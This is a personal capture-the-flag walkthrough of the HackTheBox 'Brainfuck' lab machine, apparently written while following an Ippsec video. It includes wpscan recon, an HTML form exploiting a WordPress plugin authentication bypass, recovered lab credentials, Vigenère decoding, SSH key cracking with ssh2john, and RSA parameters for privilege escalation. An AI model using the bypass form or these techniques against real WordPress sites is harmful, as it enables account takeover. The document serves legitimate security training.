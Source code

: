 # Brainfuck
Name: Brainfuck
Date:  
Difficulty:  Insane
Description:  Walkthough
Better Description:  [Ippsec Video]()
Goals:  OSCP Prep, Ippsec handholding, but read atleast another method from a written source, if possible try practice on-the-fly python scripting
Learnt: 
- Hosting PHP to request a cookie for my browser to 
- Inspecting Webpage to view dotted password obfuscation in console!


## Recon Pre Video Handheldery

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nmap, Certs:
brainfuck.htb
sup3rs3cr3t.brainfuck.htb
![cert](certviewer1.png)


#### brainfuck.htb

Wordpress
orestis@brainfuck.htb
![nuc](nuclei-cve2017-5487.png)

```bash
wpscan --url https://brainfuck.htb -e -o wpscan-brainfuck.htb --disable-tls-checks --api-token $(cat ~/wpscanAPI)
```

There is potential an potential to reset admin's password with email request to controlled email server, then access the Dovecot Pop3 service hosted OR the forum! on Brainfuck or WP get a Web Shell after authenicating into WP.
https://nvd.nist.gov/vuln/detail/CVE-2017-8295



#### sup3rs3cr3t.brainfuck.htb
![usersonforum](usersonforum.png)

![cookies](forumcookies.png)

## Start the Video

Started the [Brainfuck Ippsec Video](https://www.youtube.com/watch?v=o5x1yg3JnYI) as a good hour of scanning and walking each subdomain and testing and gathering information. Paused Video at 6:54, checked [RCE directory exists](https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f) - Nope.

```bash
grep "includes/admin/attachment/" feroxbuster/brainfuck-raft-small-words
# Nothing..
```
Continued with video, I tried admin@brainfuck.htb to pre-emptively skip a step of trying this exploit. It failed. Changed it to the email found in the Cert and nmap scan.
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="admin@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

## Exploit
This was awesome cookie exploit. Simply T(Undescriptive);D(id)R(ead, but hey here is an explanation) the 41006.txt file is that wp_set_auth_cookie can leveraged to force the wp service request the attacker browser set the cookies to the cookies of a logged in user. 

![wow](thatisnuts.png)

Paused the video again and tried to create or edit a wordpress plugin for a web shell; the connection hangs for the former and any changes are lost given that the files on box need to be writable to allow for pasting in a webshell. Continued with the video...

Settings ->  Easy WP SMTP -> 

![](smtpcreds.png)

Never done this before!
```
SMTP:orestis kHGuERB29DNiNE
```
Paused video, research other people OSCP SMTP Cheatsheets to compile into my own. Also want to find a good cli email client that can be scripted instead of evolution. This seemed like a bit of rabbit hole, for another day..

## Returning two days later
![rootsendsmail](rootsendsmail.png)

```
orestis : kIEnnfEKJ#9UmdO
```

Paused here and 
![](cthululanguage.png)

![](sshaccess-noorestis.png)


## Foothold

Best site in the known universe for code-breaking that I found was [boxentriq](https://www.boxentriq.com/). It has analysis tools to attempt to figure out the encoding. Most can perform an autosolve. With autosolve I just changed the defaults to: min key length 1; max key length 16.  It is [Vigenère Cipher](https://www.boxentriq.com/code-breaking/vigenere-cipher), with key  `fuckmybrain`, decoded it is:
```
Hey give me the url for my key bitch

Orestis - Hacking for fun and profit
Vko bwlbbr dgg s zgda nrtkm gy ia...

Toggdxhhu....
Kgivvkr - Ahraeck iqt enu pdz evrhks

There you go you stupid fuck, I hope you remember your key password because I dont
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa

Sa ewgxcjo, P'hq ngzla wttja nf
Dwwoknu - Owhwxsy bfw hbj fzs ujkwnv
```


Download and crack the SSH key with:
```bash
ssh2john id_rsa > id_rsa_crackable
```

![](crackthesshkey.png)

Remember to `chmod 600 id_rsa`, using the creds:
```
3poulakia!
```

## PrivEsc

Still paused I wanna sharpen some Linux PrivEsc...


![](likesencryption.png)

How random is it...
![](shannon-entropy.png)
Not really potential

![](linux-priv-esc-suggester.png)

Went back to the video was surprise how just google a line of the script revealed it to be RSA, paused it at the creating a script part as I really need to practice on the fly scripting.

[RSA Wiki](https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Operation)
[StackOverFlow](https://stackoverflow.com/questions/58750417/how-to-decrypt-an-rsa-encryption)
[Euler constant with Python](https://datagy.io/python-e-euler/)
[Python Math](https://docs.python.org/3/library/math.html)

p and q are not secret

![notsohard](wikisecurity.png)

Debug.txt contains, both p and q:
```python
p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
```

```python
q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
```

```python
e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
```

```python
n = p*q
52607443949523684204017785703334000062938570714097986630590264896550409660884195770611782961328739044415119649238794734477667608013099487155120771988003786008644669185439528981642994732956155433879097964154609491499493838655719750895219082205272585290719645694003192699681821689790204932179071790474589522253
```


λ(n) = lcm(p − 1, q − 1); lowest common multiples as prime numbers are awesome.
This is the `phi` var in the script.

```python
phi =
52607443949523684204017785703334000062938570714097986630590264896550409660884195770611782961328739044415119649238794734477667608013099487155120771988003771494764364932809973892863137642261832650207296912020821259493213503048069367649430050615158480078856785603105463963127579348618667488619572543565279827868
```

![](python-hot-examples.png)

nbits is the proof to check up to 

Fortran gcd = Returns the greatest common divisor of two integers

math.e

[SageMath](https://stackoverflow.com/questions/15724000/using-sage-math-library-within-python) -> [FAQ](https://doc.sagemath.org/html/en/faq/faq-usage.html)

